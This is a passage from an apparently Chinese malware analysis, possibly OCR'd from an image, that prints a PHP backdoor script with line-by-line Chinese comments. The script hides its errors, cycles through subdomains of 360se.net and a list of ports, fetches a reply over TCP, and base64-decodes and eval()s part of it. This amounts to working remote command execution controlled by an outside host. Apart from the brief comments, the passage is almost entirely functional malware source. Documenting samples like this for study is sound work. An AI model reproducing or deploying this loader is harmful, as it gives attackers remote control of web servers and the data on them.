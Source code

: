         fwrite($fp, $out);
        fclose($fp);
    }

脚本二功能：内置有域名表和端口表，批量遍历然后发送数据。注释如下：

    <?php
    @ini_set("display_errors","0");
    error_reporting(0);
    function tcpGet($sendMsg = '', $ip = '360se.net', $port = '20123'){
        $result = "";
        $handle = stream_socket_client("tcp://{$ip}:{$port}", $errno, $errstr,10);  // 接收数据，每次过来一条数据就要连接一次
          if( !$handle ){
            $handle = fsockopen($ip, intval($port), $errno, $errstr, 5);  //错误的时候就重连一次测试。
            if( !$handle ){
                return "err";
            }
        }
        fwrite($handle, $sendMsg."\n");         // 模拟发送数据
        while(!feof($handle)){
            stream_set_timeout($handle, 2);
            $result .= fread($handle, 1024);   // 读取文件
            $info = stream_get_meta_data($handle);     // 超时则退出
            if ($info['timed_out']) {
                break;
            }
        }
        fclose($handle);
        return $result;
    }

    $ds = array("www","bbs","cms","down","up","file","ftp");   // 域名表
    $ps = array("20123","40125","8080","80","53");             // 端口表
    $n = false;
    do {
        $n = false;
        foreach ($ds as $d){                                   //遍历域名表
            $b = false;
            foreach ($ps as $p){                               // 遍历端口表
                $result = tcpGet($i,$d.".360se.net",$p);
                if ($result != "err"){
                    $b =true;
                    break;
                }
            }
            if ($b)break;
        }
        $info = explode("<^>",$result);
        if (count($info)==4){
            if (strpos($info[3],"/*Onemore*/") !== false){
                $info[3] = str_replace("/*Onemore*/","",$info[3]);
                $n=true;
            }
            @eval(base64_decode($info[3]));
        }
    }while($n);
